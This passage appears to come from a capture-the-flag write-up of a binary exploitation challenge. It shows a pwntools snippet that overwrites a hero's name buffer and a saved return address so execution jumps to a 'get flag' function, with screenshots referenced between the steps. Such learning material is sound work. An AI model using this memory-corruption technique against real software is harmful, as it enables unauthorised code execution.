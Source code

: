 When we check again, we can see that the first 12 bytes of name of second hero is overwriten:

![check-second-name.png](images/check-second-name.png)

The last 4 byte of name of second hero is still in there so let's change that last 4 bytes of second name to last 4 bytes of get flag address:

```python
p.sendlineafter(b'(0-2)\n', b'2')

payload = p32(18)
payload += p64(0)                           # Saved rbp
payload += p64(exe.address + 0x1d6d)[:4]    # Saved rip
p.sendafter(b'hero?\n', payload)
payload = b'1'*0xc + p64(exe.address + 0x1d6d)[4:]
p.sendafter(b'hero?\n', payload)
```

Check again and we can see the address is correct now:

![check-second-name-2.png](images/check-second-name-2.png)

Let it overwrite the saved rip and check if we have done or not:

![check-saved-rip.png](images/check-saved-rip.png)

